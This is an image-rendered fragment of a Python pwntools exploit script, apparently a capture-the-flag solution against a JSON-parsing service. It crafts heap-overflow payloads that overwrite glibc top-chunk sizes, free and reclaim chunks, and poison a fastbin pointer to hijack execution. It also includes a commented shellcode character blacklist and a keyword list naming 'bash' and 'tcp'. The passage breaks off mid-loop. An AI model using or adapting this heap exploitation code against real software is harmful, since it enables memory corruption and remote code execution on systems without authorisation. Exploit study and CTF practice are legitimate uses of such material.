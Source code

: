 ```plain
    N, ret, calc_size = calc_array_pair_cnt(required_size, message_len)
    payload = b'1,' * N # 0x50 chunk
    # payload = payload.rstrip(b",")
    if ret == -1:
        payload += b'\x01' * (required_size - calc_size)
    # print("required_size {:#x} message_len {:#x} N {:#x} payload_len {:#x}".format(required_size, message_len, N, len(payload)))
    # print(b"payload: %b" % payload)
    return payload




def exp(host, port):
    io = remote(host, port, timeout = 9999)

    json_template = b'''
    {"data":"BICWCZDNNFXBEK3IOR2HA4Z2F4XXO53XFZ4W65LUOVRGKLTDN5WS653BORRWQP3WHUWVC4LQIV3E4MSYMQ4BQAQ","timestamp":61866,"timestamp":\x11[%b]}
    '''.strip()
    # print(json_template, len(json_template) - 2)
    template_len = len(json_template) - 2 + 1 # 2: %b, 1: content_length + 1
    top_chunk_size = 0x20e00 + 0x2000 # why 0x2000?

    raw_len = lambda x: len(get_raw_payload(x))

    # array_payload|overflow_old_top_chunk_payload|free_old_top_chunk_payload|overflow_new_top_chunk_payload|free_new_top_chunk_payload|overflow_fastbin_fd_payload|dummy_alloc_payload|hijack_payload

    overflow_old_top_chunk_payload =  b'"aaaaaaaaaaaaa\u"   '
    overflow_old_top_chunk_payload += b'0' * 8 # prev_size of old top_chunk
    overflow_old_top_chunk_payload += p16(0x41) # 0x1041 -> 0x41
    overflow_old_top_chunk_payload += b'"'
    overflow_old_top_chunk_payload += b',' # not end
    # print("overflow_old_top_chunk_payload len {:#x}, raw_len {:#x}".format(len(overflow_old_top_chunk_payload), raw_len(overflow_old_top_chunk_payload)))


    # free_old_top_chunk_payload = b",1" # 0x50 chunk, we don't need this step because the next cJSON_String will do this happily

    overflow_new_top_chunk_payload =  b'"bbbbbbbbbbbbbbbbbbbbbbbbbbbbb\u"   '
    overflow_new_top_chunk_payload += b'1' * 8 # prev_size of new top_chunk
    overflow_new_top_chunk_payload += p8(0x61 + 0x50) + p16(0) # 0x0000000000021f81 -> 0x00000000000000b1, save bytes as much as possible
    overflow_new_top_chunk_payload += b'"'
    overflow_new_top_chunk_payload += b',' # not end
    # print("overflow_new_top_chunk_payload len {:#x}, raw_len {:#x}".format(len(overflow_new_top_chunk_payload), raw_len(overflow_new_top_chunk_payload)))

    # malloc(0x60 - 0x10)
    free_new_top_chunk_payload =  b'"'
    free_new_top_chunk_payload += b'2' * 0x50
    free_new_top_chunk_payload += b'"'
    free_new_top_chunk_payload += b',' # not end
    # print("free_new_top_chunk_payload len {:#x}, raw_len {:#x}".format(len(free_new_top_chunk_payload), raw_len(free_new_top_chunk_payload)))

    # reclaim small bin and overflow fastbin
    # for k in blacklist_dict:
    #     assert k not in shellcode, "invalid char {}:{} in shellcode".format(shellcode.find(k), k)

    # for k in [b"bash", b"flag", b"cat", b"tcp"]:
```